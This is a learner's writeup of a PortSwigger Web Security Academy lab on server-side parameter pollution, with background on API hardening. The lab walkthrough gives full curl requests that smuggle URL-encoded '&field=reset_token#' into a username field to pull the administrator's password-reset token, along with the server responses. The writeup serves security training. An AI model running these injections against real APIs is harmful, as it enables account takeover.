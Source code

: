 # API Testing part 2

This writeup covers the learning path *API_testing* on Portswigger.

## Preventing vulnerabilities in APIs

When designing an API it is important, as with all other software, to think security from the start. Particularly, make sure that documentation is only accessible by those who are authorized to use the API, apply allow lists for HTTP methods, sanitize and validate HTTP headers (Content type). Furthermore using generic error messages or codes will help defend against attackers who can use verbose errors to figure out the system. Protective measures should be used on all versions of the API currently available, not just production.
Also be vary of mass assignment, and only allow assignment to inteded properties.

## Server-side parameter pollution

Much like server-side request forgery (SSRF), this vulnerability allows an attacker to manipulate requests to internal APIs, if the system embeds user input into internal API requests. Server-side parameter pollution allows an attacker to override and modify application data and behavior and might allow access to unauthorized data too.

All types of user input is possibly vulnerable to parameter pollution. Such as:

- Query params
- Form fields
- Headers

and so on.

### Testing for server-side parameter pollution

An example of parameter pollution in the query string could look like this:

- Public query to frontend

```HTTP
GET /userSearch?name=peter&back=/home
```

Server-side then makes the request to an internal API as such:

```HTTP
GET /users/search?name=peter&publicProfile=true
```

It is useful to test the response of the application by providing special characters in the query such as `#` `&` `=`.

**Note:** The special chars should be URL encoded.

We could use the `#` (URL encoded: `%23`) in order to test for query truncation. A truncated query means that the rest of the query is not getting parsed, as we have inserted something else for the backend to parse (in this case the `#` followed by some value e.g `foo`). Using this, we might be able to bypass some checks. It might also prove fruitful to add another query parameter using `&`. If the server parses the extra parameter, it might be useful or just ignored.

If we have identified additional parameters (See part 1), we might be able to parse these in the query string. It might bypass some authentication / authorization.
Parsing more than one of the same query parameter such as `?username=peter&username=admin` might also prove to be valuable, if the server parses the last username when looking in the database, but uses the first for authentication, we might be able to log in as admin.

## Lab: Exploiting server-side parameter pollution in a query string

**Lab Description**: To solve the lab, log in as the `administrator` and delete `carlos`.

### Lab solution

We are not given any log-in. Yet inspecting the login page and trying to log in might give us some information on how the API works. Trying to log in this not result in any information on the API. But the forgot password functionality uses a JS script, which has a query parameter: `/forgot-password?reset_token=${resetToken}`. Immediately this does not provide any useful information. When querying the forgot_password endpoint with a random token, it repsonds with invalid token.

What about the products? Let's try. Here we see the query: `/product?productId=1`. Adding another query param returns `invalid product ID`, which means the backend might concatenate the two fields.

I believe that we have to try again with the forgot password endpoint. It seems that we need to do post requests with form-urlencoded and not look for a api with query params. (I used a hint for this one, as I am not using Burp suite for these labs and I thought that we where searching for a query string in a GET request, not a POST. You learn something new all the time!). To solve this lab I used curl to send the requests to forgot_password:

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator'
{"type":"email","result":"*****@normal-user.net"}%  
```

Now let's manipulate this query. As the previous section informed us, we could try to truncate and add another field! Lets try adding a random field to check out the message we get back first:

**Note:** remember to URL encode!!

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26foo=bar'
{"error": "Parameter is not supported."}% 
```

And we see that, this parameter is not supported! Well, maybe a different one is. Where should we start? I thought we could maybe change the email of the admin account to our own (I don't think this is necessary for this challenge, but if it was a real life case) so i tried changing the parameter to email. This did not work and I do not feel like bruteforcing this parameter. Let's try to truncate!

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%23'              
{"error": "Field not specified."}%  
```

We get the message `Field not specified`. This hints towards that a parameter called `field` can be set:

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26field=bar%23'
{"type":"ClientError","code":400,"error":"Invalid field."}% 
```

Now this looks promising!. Maybe email will work as a valid field! it does! 

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26field=email%23'
{"type":"email","result":"*****@normal-user.net"}% 
```

We are back to the original response. Recall the forgot_password JS script where we found the reset_token url. We might be able to retrieve a token if we change the field to reset_token:

```bash
curl 'https://0af4001c0430d813821fb5ac009200c7.web-security-academy.net/forgot-password' --compressed -X POST -H 'Content-Type: x-www-form-urlencoded' -H 'Cookie: session=hzwoZGbNrumgHEvMg6reVSMDMOFFt7SX' --data-raw 'csrf=09PhPtnnnM1TOSq1WbVcd6XQUOyUHNOP&username=administrator%26field=reset_token%23'
{"type":"reset_token","result":"2350wzp9hfy9j4ulxdbwzy53ufvn629p"}%   
```

We get a token. Now we can try the reset_token endpoint with our new token! It works, and now a reset password page is presented to us, simply change the administrator password and login, in order to delete carlos.

**Note:** I viewed the rest of the solution hints afterwards and saw that Burp has a parameter bruteforce tool, quite neat! This one was a bit hard for me, because I got tunnel vision looking for a `/api` endpoint with query parameters in it, when in reality all it took was a post request with form-urlencoded.

### Testing for server-side parameter pollution in REST paths

